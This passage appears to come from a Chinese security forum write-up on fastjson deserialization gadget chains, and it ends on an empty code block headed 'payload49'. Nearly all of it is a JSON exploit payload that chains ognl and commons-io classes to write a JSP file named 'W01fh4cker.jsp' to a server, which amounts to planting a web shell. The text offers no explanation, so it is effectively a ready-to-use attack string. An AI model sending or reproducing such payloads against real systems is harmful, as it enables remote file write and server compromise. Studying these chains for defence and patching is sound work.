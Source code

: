 ```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-fec20b60f4cc4cc72d1e955733ced8d641d83554.png)

### 5.2.2 ognl+commons-io 2.7~2.8版本

`payload49`：

```json
```